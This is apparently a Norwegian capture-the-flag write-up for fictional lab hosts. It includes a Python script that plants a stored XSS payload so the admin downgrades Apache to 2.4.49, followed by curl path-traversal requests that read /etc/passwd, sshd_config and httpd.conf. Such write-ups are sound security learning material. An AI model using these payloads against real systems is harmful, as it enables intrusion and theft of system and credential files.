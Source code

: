 Det ser ut som om at admin kan endre apache-versjonen som nettsiden `anvilshop.utl` bruker. Dette er en nettside vi også fikk vite om i oppdragsteksten, og som bruker Apache 2.4.51. Apache 2.4.49 er kjent for å være vulnerable for path-traversal attack og mulig RCE (Remote Code Execution), så dette er en versjon vi heller vil ha enn 2.4.51 (som ikke er vulnerable for disse angrepene).

Vi har fortsatt ikke tilgang selv til */admin/update*, men vi kan få admin til å endre versjonsnummeret til serveren for oss med samme XSS-exploit som flagg 3, bare med annen payload i selve scriptet.

Her trenger vi ikke noen kjørende server for å få responsen fra admin, ettersom vi kan se i HTML-koden at det bare sendes en POST-request til */admin/update* for å endre server-versjonen.

XSS-scriptet som fikk æren av å utføre dette ble seende slik ut:
```python
import requests

s = requests.Session()
cookie = {"session": "eyJmbGFnIjoiMGEwZGZmZmRmYTdhN2U2ZDRhYzBhNGM1YWI0N2E1YjEiLCJ1c2VyX2lkIjoxNn0.Yb4jYQ.zIC4uLs8BbGY7jdKECjQHITekHk"}

script = """<script>
    xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/update", true);
    xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
    xhr.send("service=apache&version=2.4.49");
</script>"""

blogpost = {"title": "Mission Plan", "body": script}
res = s.post("http://blog.utl/create", data=blogpost, cookies=cookie)
s.close()
```

Etter at vi har negradert versjonen til apache-serveren finner vi flagget i meta-tagen til responsen fra nettsiden. `curl "anvilshop.utl"` `<meta name="flag" content="xxxxxxxx">`


# 2.5_webserver_2
Vi har fått vite om et endpoint for anvilshop-nettstedet som brukes i denne oppgaven: `anvilshop.utl/cgi-bin/lootd.v2/download?app.apk`. Dette endpointet (cgi-bin) kan man også finne ved å se i *robots.txt* for nettstedet.

Nå som vi har nedgradert apache-versjonen kan vi prøve å bruke path-traversal, og RCE. Etterhvert vil det vise seg at RCE ikke er mulig grunnet konfigueringen av apache-serveren (en cgi-modul som ikke brukes, som visstnok skal være nødvending for RCE til å fungere). Path-traversal er derimot mulig, og vi kan f.eks ta en kikk på */etc/passwd* `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"`. Helt nederst i */etc/passwd* finner vi flagg 5.

Man kan finne flagg 5 på to andre måter i tillegg:
- `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/ssh/sshd_config"`
- `curl "anvilshop.utl/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/httpd.conf"`


# 2.9_pam
Denne oppgaven tok unødvendig lang tid. Jeg prøvde først å implementere koden under i C, men en liten feil i scriptet gjorde at det scriptet ikke funket. Det var derimot mye enklere å bruke javascript for å løse denne oppgaven.
